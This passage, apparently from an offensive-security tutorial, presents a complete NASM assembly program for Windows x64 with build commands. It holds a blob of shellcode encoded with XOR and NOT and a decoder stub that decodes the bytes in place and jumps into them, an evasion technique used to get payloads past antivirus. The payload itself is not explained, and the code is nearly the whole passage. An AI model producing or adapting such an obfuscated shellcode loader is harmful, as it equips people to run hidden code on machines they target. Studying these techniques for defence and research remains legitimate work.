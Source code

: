 > mov r9b, [rel encoded_shellcode + 38]

That's the index for the location of our decryption key in the shellcode itself.  Ok, let's check out that assembly code shall we?

```nasm
;nasm -fwin64 [x64findkernel32.asm]
;ld -m i386pep -N -o x64findkernel32.exe x64findkernel32.obj
BITS 64

section .data 

section .text
global main

main:
    ; Decode loop (use LEA for RIP-relative address)
    lea rsi, [rel encoded_shellcode]
    mov r9b, [rel encoded_shellcode + 38]
    mov rcx, encoded_shellcode_len   ; Immediate value, no rel needed
decode_loop:
    mov al, [rsi]
    xor al, r9b           ; 0xAC
    not al             ; Undo NOT encoding
    mov [rsi], al
    inc rsi
    loop decode_loop

    ; Jump to decoded shellcode (reload address for jmp)
    lea rax, [rel encoded_shellcode]
    jmp rax
	
encoded_shellcode:
db  0x1e,0xd4,0xb5,0x1b,0xd0,0xbf,0x7b,0x1b,0xde,0x6c,0x1b,0xd0,0xb7,0xa3,0x1e,0xd4,0xa7,0x1b,0x62,0x9a,0x1a,0xd4,0xaf,0x36,0x1b,0xd8,0x57,0x76,0x63,0x53,0x53,0x53,0x1b,0xd8,0x13,0x33,0x1b,0x62,0xac,0x1b,0xd8,0x13,0x4b,0x1a,0xd4,0xad,0x1b,0xd8,0x23,0x43,0x1b,0xd0,0x94,0x53,0x1b,0xd8,0x65,0x1f,0xd4,0xbc,0x1b,0xd8,0x1d,0x33,0x1f,0xd4,0xbc,0x1b,0xd8,0x4a,0x1e,0xd4,0xbf,0x1b,0xe9,0x18,0x53,0x16,0x53,0x01,0x53,0x1d,0x53,0x1b,0x62,0xac,0x1b,0x6a,0x80,0x27,0x5b,0x1a,0xd4,0xaf,0x26,0x85,0x1f,0xd4,0xb4,0x1b,0xd8,0x0d,0x63,0x1e,0xda,0xa5,0x1a,0xda,0x8b,0x1e,0xd4,0xb6,0xd8,0x08,0x6f,0x1e,0x38,0xb7,0x52,0x1f,0x52,0x90,0x1e,0xda,0xb7,0x1b,0x62,0x9a,0x1a,0x92,0xb6,0x53,0x35,0xd2,0x92,0xac,0xdb,0x1e,0xd4,0xbd,0x1b,0x92,0xba,0x5b,0x1a,0x92,0x9f,0x53,0xd8,0x47,0x58,0x1f,0xd4,0xb4,0x1f,0x52,0x91,0x1e,0xda,0xbe,0x17,0xd8,0x01,0x47,0x1e,0x62,0xbe,0x1e,0x62,0x88,0x1a,0xd0,0xbf,0x53,0x17,0xd8,0x09,0x73,0x1a,0xd0,0xad,0x53,0x1e,0x52,0x90,0x1e,0xd4,0xbd,0x1f,0xda,0x82,0x1f,0xd4,0xbc,0x1b,0xeb,0xfb,0xc5,0xc2,0xe9,0xd4,0xc9,0xcf,0x3c,0x1b,0x92,0x9c,0x53,0x1b,0xa4,0x83,0x1a,0xd4,0xae,0x1b,0x92,0xb3,0x5b,0x1e,0xda,0xbe,0x1b,0x92,0xbb,0x5b,0x1e,0xd4,0xb5,0x03,0x1e,0xd6,0xa5,0x1b,0xda,0xb3,0x1a,0xd4,0xad,0x1b,0xd0,0x97,0x5b,0x1e,0xda,0xb7,0x34,0xb0,0x63,0x1a,0xd4,0xad,0x62,0x88,0x1a,0xd4,0xaf,0x12,0xd8,0x4f,0xd8,0x1b,0x92,0xb4,0x53,0x1f,0x52,0x90,0x1e,0xd4,0xb5,0x1b,0xac,0x9a,0x1a,0xd4,0xaf,0x1f,0xd8,0x5b,0x1e,0xd4,0xa7,0x1f,0x6a,0x58,0x27,0x5e,0x1e,0xd4,0xbd,0x26,0x82,0x1a,0x92,0xb5,0x53,0x9f,0x1a,0xd4,0xaf,0xac,0x92,0x1e,0xd6,0xb7,0x1e,0x62,0x88,0x1e,0xd4,0xa7,0x17,0xd8,0x09,0x4f,0x1f,0xd4,0xa4,0x1e,0x52,0x90,0x1e,0xd4,0xbf,0x16,0xd8,0x6f,0xd8,0x1a,0xd4,0xad,0x1e,0x52,0x94,0x1e,0x62,0xa5,0x1b,0x62,0x93,0x1a,0xd0,0x96,0x53,0x03,0x1a,0xd4,0xae,0x1b,0xeb,0xcf,0xcd,0xc0,0xcf,0x82,0xc9,0xd4,0xc9,0x1a,0xd0,0xaf,0x53,0x1b,0xa4,0x83,0x1e,0xd4,0xbd,0x03,0x1a,0xd4,0xad,0x1b,0xda,0xb2,0x1e,0xd6,0xb7,0x1b,0x62,0x81,0x1e,0xd4,0xbd,0x1b,0xac,0x91,0x1a,0xd4,0xad,0x1b,0xd0,0xbf,0x63,0x1a,0xd4,0xaf,0x12,0xac,0x84,0x1e,0xd4,0xa7,0x53,0x53,0x53,0x53,0x53
encoded_shellcode_len equ $ - encoded_shellcode
```
